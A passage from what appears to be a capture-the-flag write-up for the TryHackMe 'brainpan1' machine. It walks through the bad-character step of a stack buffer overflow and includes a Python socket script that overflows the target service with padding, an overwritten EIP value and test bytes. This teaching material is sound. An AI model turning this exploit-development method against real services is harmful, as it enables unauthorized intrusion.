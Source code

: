 We need to identify any characters that may cause any issues to our target program,
using these characters in our final shellcode will break it. 


To do this we need a list of all possible hex values, you can find it [here](https://github.com/cytopia/badchars). 
We need the Python syntax: 

![badchars20](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/brainpan1/img/badchars20.png)


Copy this blob to our script, and add it to our payload:


```python
import socket, sys

badchars = <past badchars here>
buffer = b'A' * 524
eip = b'B' * 4
payload = buffer + eip + badchars


try:
	conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	conn.connect(('192.168.60.15', 9999))
		
	conn.sendall(payload)
	conn.close()
	
except Exception as e:
	print(e)
```